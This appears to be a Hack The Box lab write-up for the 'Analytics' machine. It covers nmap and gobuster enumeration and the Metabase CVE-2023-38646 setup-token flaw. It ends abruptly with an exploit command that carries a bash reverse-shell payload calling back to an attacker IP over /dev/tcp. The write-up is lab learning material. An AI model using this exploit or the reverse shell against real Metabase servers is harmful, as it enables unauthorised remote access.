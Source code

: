 ```yaml
---
type: box
finished: "true"
blog: "true"
writeup: "true"
---
```


![[Analytics.png]]

# INFO:
### IP:
10.10.11.233

# Enum 
Nmap gives this output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 with this command
 `nmap -sV -sC -p- 10.10.11.233`

 the ip redirects to analytical.htb in the browser so we have to put it in our /etc/hosts. usually changing hosts is a sign to do vhost enumeration, so we can run both vhost and dir gobuster in the background while we explore the webpage.
 
 So we'll run `gobuster dir -u analytical.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` and... no find.

When we just look through the website we find a login page, this redirects to data.analytical.htb, let's add that too to our /etc/hosts.

We get greeted with this login screen
![[Pasted image 20231107164931.png]]
Googling metabase CVE finds us a lot of results.

# **[CVE-2023-38646](https://github.com/securezeron/CVE-2023-38646)

Apperently metabase has done some serious issues. The setup-token that is supposed to be private can be freely visited under this api directory `/api/session/properties`. With 

`python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.247/443 0>&1"`
